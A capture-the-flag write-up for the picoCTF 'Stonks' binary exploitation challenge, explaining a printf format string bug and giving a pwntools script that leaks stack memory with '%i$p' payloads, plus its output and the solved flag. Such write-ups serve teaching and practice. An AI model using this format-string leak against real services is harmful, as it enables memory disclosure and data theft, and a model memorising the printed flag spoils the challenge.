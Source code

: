 # [Stonks](https://play.picoctf.org/practice/challenge/105?originalEvent=34&page=1)
<div style="background-image: linear-gradient(to bottom left,#fd5d93,#ec250d,#fd5d93);margin-right:75%; padding-left:2%;border-radius: .4285rem; color:white">Category:  Binary Exploitation</div>

#### AUTHOR: MADSTACKS

### Description 

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) ``$ nc mercury.picoctf.net 6989``


### Method

We can see from the source code that if we choose to buy stonks, we are able to enter a string which is used as the format string for ``printf``.

```sh

printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);

```
This is vulnerable to a format string attack.

We can automate the attack using the following script:

```python

from pwn import *

flag = b''
for i in range(15, 25):
    with context.local(log_level = "error"):
        r = remote("mercury.picoctf.net", 16439)
        r.sendlineafter("What would you like to do?\n", "1")
        r.sendlineafter("What is your API token?\n", f"%{i}$p")
        r.recvuntilS("Buying stonks with token:\n")
        out = r.recvline()
        try:
            res = p32(int(out.decode(), 16))
            flag += res
        except Exception:
            pass
        r.recvall()

print(flag)

```

```sh

┌──(callummason㉿MARVIN)-[/mnt/…/CTF/picoCTF/2021/Stonks]
└─$ python3 vuln.py 
b'picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}\x00\xab\xff'

```



### Flags


#### ***** picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae} ****